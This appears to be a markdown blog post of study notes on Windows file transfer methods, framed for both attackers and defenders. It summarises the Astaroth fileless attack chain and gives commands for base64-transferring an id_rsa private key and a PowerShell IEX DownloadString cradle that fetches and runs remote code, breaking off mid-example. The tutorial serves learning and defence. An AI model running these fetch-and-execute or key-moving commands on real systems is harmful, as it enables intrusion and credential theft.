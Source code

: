 ```yaml
---
title: "5 File Transfers"
description: "file transfer refers to the process of transmitting digital files between systems, often over a network or the internet."
pubDate: "May 09 2025"
heroImage: "/ftpp.jpg"
---
```


# Notes on Windows File Transfer Methods

## Introduction
- Understanding Windows file transfer methods aids attackers in evading detection and defenders in monitoring and securing systems.
- **Example**: Microsoft Astaroth Attack, an advanced persistent threat (APT) using fileless techniques.
  - **Steps**:
    1. Spear-phishing email with URL to an archive containing an LNK file.
    2. LNK file triggers WMIC with "/Format" to download and execute malicious JavaScript.
    3. JavaScript uses Bitsadmin to download base64-encoded payloads.
    4. Certutil decodes payloads into DLLs; regsvr32 loads a DLL, injecting the final payload into the Userok process.
  - **Fileless Threats**: Run in memory to avoid detection, not stored as traditional files.

## File Transfer Methods

### PowerShell Base64 Encode & Decode
- **Purpose**: Transfer files without network communication by encoding to base64.
- **Process**:
  - Encode on source (e.g., Linux):
    ```bash
    cat id_rsa | base64 -w 0
    ```
  - Decode on Windows:
    ```powershell
    [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64_string>"))
    ```
  - Verify integrity with MD5:
    - Linux: `md5sum id_rsa`
    - Windows: `Get-FileHash -Path C:\Users\Public\id_rsa -Algorithm MD5`
- **Limitations**:
  - CMD string limit: 8,191 characters.
  - Web shells may fail with large strings.

### PowerShell Web Downloads
- **Context**: HTTP/HTTPS often allowed, enabling web-based transfers.
- **Methods**:
  - **System.Net.WebClient**:
    - `DownloadFile`:
      ```powershell
      (New-Object Net.WebClient).DownloadFile('https://<URL>', '<OutputPath>')
      ```
    - `DownloadString` (fileless):
      ```powershell
      IEX (New-Object Net.WebClient).DownloadString('https://<URL>')
      ```
  - **Invoke-WebRequest** (PowerShell 3.0+):
    - Slower, supports aliases (`iwr`, `wget`).
    - Example: